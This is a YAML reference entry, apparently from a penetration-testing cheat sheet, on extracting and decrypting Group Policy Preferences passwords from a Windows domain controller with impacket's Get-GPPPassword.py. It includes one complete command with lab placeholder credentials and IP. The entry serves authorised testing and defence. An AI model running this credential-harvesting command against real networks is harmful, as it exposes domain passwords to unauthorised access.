 ```yaml
---
title: |
  Extract and decrypt Group Policy Preferences (GPP) passwords
description: |
  Python script to automatically extract and decrypt Group Policy Preferences (GPP) passwords using streams for carving files instead of mounting shares

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Password: Welkom01!

command: |
  python3 Get-GPPPassword.py 'TEST.local/test:Welkom01!@DC01.TEST.local' -dc-ip 10.10.10.1
items:
  - Password
  - Username
  - Hash
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - Enumeration
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py
  - https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/
---
```

